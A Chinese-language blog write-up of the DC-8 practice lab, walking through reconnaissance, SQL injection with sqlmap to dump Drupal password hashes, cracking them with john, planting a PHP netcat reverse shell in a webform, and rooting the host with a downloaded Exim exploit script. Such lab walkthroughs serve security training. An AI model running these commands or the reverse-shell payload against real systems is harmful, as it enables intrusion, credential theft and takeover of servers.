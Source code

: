 ```yaml
---
layout: post
title: DC-8
subtitle: DC-8
date: 2025-07-17 09:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

## 信息搜集

扫描IP，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/WUE7BR.png)

扫描端口发现80和22端口

```shell
nmap -T4 -A -p- 192.168.163.131
```

![image.png](https://img.ghostliner.top/YDtSmm.png)

目录扫描发现登录地址 `/user/login/`

```shell
dirsearch -u http://192.168.163.131 -e* -i 200
```

![image.png](https://img.ghostliner.top/3yhHXh.png)

指纹识别，发现站点为 `Drupal 7`

```shell
whatweb -v http://192.168.163.131
```

![image.png](https://img.ghostliner.top/Ut8ZAj.png)

浏览器查看站点地址： <http://192.168.163.131/?nid=1>

`nid=1'` 测试发现存在sql注入

![image.png](https://img.ghostliner.top/pJ82cf.png)

## 渗透测试

#### 数据库爆破

sqlmap爆破数据库，获取用户名密码

```shell
# 获取当前数据库
sqlmap -u http://192.168.163.131/?nid=1 --current-db --batch
# 获取数据库表
sqlmap -u http://192.168.163.131/?nid=1 -D d7db --tables
# 获取表中列
sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users --columns
# 获取用户名，密码
sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users -C name,pass --dump
```

数据库名：`d7db`
![image.png](https://img.ghostliner.top/c6ezx6.png)

数据库中users表的列名，发现其中有 `name`, `pass`
![image.png](https://img.ghostliner.top/V508yv.png)

获取到用户名、密码
![image.png](https://img.ghostliner.top/2Ox8LF.png)

`$S`为`Drupal`的密码哈希加密格式，尝试用 `john` 破解

```shell
echo '$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z' > john.txt
echo '$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF' >> john.txt
john john.txt
# turtle
```

#### 反弹shell

使用用户名：john，密码：turtle 登录成功，浏览网站

在此页面发现可以注入PHP代码： <http://192.168.163.131/node/3#overlay-context=user/2&overlay=node/3/webform/configure>

添加反弹shell代码

```php
<?php exec('nc -nv 192.168.163.132 4444 -c /bin/bash');?>
```

![image.png](https://img.ghostliner.top/J24lVZ.png)

kali开启监听，浏览器访问`Contact Us` 页面，提交内容后，kali成功连接到shell

![image.png](https://img.ghostliner.top/WdaAm9.png)

#### 提权

`sudo -l` 提权失败，尝试find提权

```shell
find / -user root -perm -4000 -type f 2> /dev/null
```

发现 `/usr/sbin/exim4`

![image.png](https://img.ghostliner.top/gm1yev.png)

查看`exim4`版本为：4.89

![image.png](https://img.ghostliner.top/jwMu1W.png)

搜索相关漏洞

```shell
searchexploit exim
```

![image.png](https://img.ghostliner.top/ppHChf.png)

使用 `46996.sh`脚本，将其传输到目标机

```shell
# 复制到当前目录
searchexploit -m 46996
```

查看内容，发现两种使用方法

方法1：`-m setuid`
![image.png](https://img.ghostliner.top/CQexEH.png)

方法2：`-m netcat`
![image.png](https://img.ghostliner.top/qEb0I1.png)

将 `46996.sh`传输到目标机

```shell
# 开启http服务
python -m http.server 8000
# 目标机获取脚本
wget http://192.168.163.132:8000/46996.sh
# 添加执行权限
chmod +x 46996.sh
# 提权方法1
./46996.sh -m setuid
# 提权方法2
./46996.sh -m netcat
```

方法1提权失败
![image.png](https://img.ghostliner.top/8zuEL4.png)

方法2提权成功
![image.png](https://img.ghostliner.top/Ko5DKw.png)

#### 获取flag

root目录下获取到flag文件
![image.png](https://img.ghostliner.top/cNlIz1.png)
